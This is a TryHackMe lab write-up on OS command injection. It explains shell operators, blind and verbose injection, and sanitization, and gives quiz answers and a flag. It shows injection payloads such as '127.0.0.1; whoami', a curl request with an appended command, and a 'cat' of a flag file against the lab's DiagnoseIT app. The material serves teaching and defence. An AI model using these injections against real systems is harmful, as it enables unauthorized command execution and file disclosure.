# 🖥️ TryHackMe Write-Up: Command Injection

**Keywords:** Command Injection, OS Command Injection, RCE, Web Security, TryHackMe, Exploitation

This lab demonstrates **OS Command Injection**, a vulnerability where user input is passed to the system shell without proper validation, allowing attackers to execute arbitrary commands on the underlying operating system. Since the commands execute with the same privileges as the web application, this vulnerability can often lead to **data disclosure, system compromise, or even full remote command execution (RCE).**


---

# Task 1 — Introduction (What is Command Injection?)

Command Injection occurs when a web application **unsafely passes user input to system commands**. Instead of only executing the intended command, attackers can append their own commands using shell operators.

For example, if a web application runs:

```
ping <user_input>
```

An attacker could inject:

```
127.0.0.1; whoami
```

The `;` operator allows multiple commands to run sequentially. As a result, both `ping` and `whoami` execute on the server.

This vulnerability is particularly dangerous because it allows attackers to **interact directly with the underlying operating system** and potentially access sensitive files or spawn shells.



---

# Task 2 — Discovering Command Injection

Command Injection typically occurs when applications use functions that interact with the operating system.

For example, a PHP application might take input from a form and run a command like:

```
grep "$title" songtitle.txt
```

Here the variable `$title` stores user input. If this input is not sanitized, an attacker can inject shell commands.

Similarly, Python applications can execute commands using modules like `subprocess`. A vulnerable Flask application might execute whatever command is placed in the URL path.

For example:

```
http://flaskapp.thm/id
```

This would execute the `id` command on the system.

These examples show how **unsanitized input flowing into system commands creates command injection vulnerabilities.**



---

### Answers

**Variable storing user input**

```
$title
```

**HTTP method used**

```
GET
```

**Route to execute id**

```
/id
```



---

# Task 3 — Exploiting Command Injection

Command injection often relies on **shell operators** that allow multiple commands to be chained together.

Common operators include:

```
;
&
&&
```

For example:

```
ping 127.0.0.1; whoami
```

This runs two commands sequentially.

Command Injection can be detected using two primary approaches.

### Blind Command Injection

Blind injection occurs when commands execute but **no output is visible** in the web response. In such cases, attackers rely on indirect techniques like time delays.

Example payload:

```
sleep 5
```

If the response takes longer than usual, it indicates the command executed.

Another approach involves redirecting output to files using operators such as:

```
>
```

### Verbose Command Injection

Verbose injection occurs when the application directly displays command output. This makes exploitation easier because results like usernames or directory listings appear directly in the response.



Testing payloads can also be performed using tools such as `curl`, which allows sending crafted requests to the application.

Example:

```
curl http://vulnerable.app/process.php?search=The%20Beatles;whoami
```



---

### Answers

Payload to determine application user

```
whoami
```

Tool used for blind command injection testing

```
ping
```

Payload for Windows blind command injection

```
timeout
```



---

# Task 4 — Remediating Command Injection

Preventing command injection focuses on **secure coding practices and strict input validation.**

Several programming functions directly execute system commands and therefore require careful handling. For example in PHP:

```
exec()
system()
passthru()
```

If user input is passed into these functions without validation, attackers can inject commands.



### Input Sanitization

Input sanitization restricts the format of user input so that only valid characters are allowed.

For example, an application expecting numbers should reject any input containing shell operators such as:

```
&
>
|
;
```

By enforcing strict validation rules, the application ensures that malicious command sequences cannot be injected.



---

### Answer

Term for cleaning user input

```
sanitization
```

---

# Task 5 — Practical: Exploiting the Vulnerability

The deployed application **DiagnoseIT** allows users to input an IP address, which the backend uses to run a `ping` command.

First, we tested the normal behavior using a valid IP address.

```
127.0.0.1
```

This simply triggered a ping request to localhost, confirming the application executes system commands using the input.



---

### Testing Command Injection

Next, we attempted to append another command using the semicolon operator.

```
127.0.0.1; whoami
```

The `;` operator tells the shell to execute another command after `ping`. The response revealed the user running the web application.

The output showed:

```
www-data
```

This confirms successful command injection and demonstrates that commands execute under the web server account.



---

### Retrieving the Flag

Since we confirmed command execution, we attempted to read the flag file.

```
127.0.0; cat /home/tryhackme/flag.txt
```

Here:

* `127.0.0` is used as the ping target
* `;` executes a second command
* `cat` reads the contents of the flag file

The output revealed the flag stored on the server.

```
THM{COMMAND_INJECTION_COMPLETE}
```



---

### Answers

Application user

```
www-data
```

Flag contents

```
THM{COMMAND_INJECTION_COMPLETE}
```

---

# Task 6 — Conclusion

In this room, we explored **OS Command Injection**, a serious vulnerability that allows attackers to execute system commands through insecure input handling.

Key takeaways from the lab include:

* Identifying command injection vulnerabilities in web applications
* Using shell operators to execute additional commands
* Distinguishing between blind and verbose command injection
* Exploiting the vulnerability to retrieve sensitive files
* Understanding defensive techniques such as input sanitization and secure coding practices

This vulnerability highlights the importance of **never trusting user input and properly sanitizing data before executing system-level operations.**



---

# ⭐ Follow Me & Connect

🔗 **GitHub:** [https://github.com/AdityaBhatt3010](https://github.com/AdityaBhatt3010) <br/>
💼 **LinkedIn:** [https://www.linkedin.com/in/adityabhatt3010/](https://www.linkedin.com/in/adityabhatt3010/) <br/>
✍️ **Medium:** [https://medium.com/@adityabhatt3010](https://medium.com/@adityabhatt3010) <br/>

---
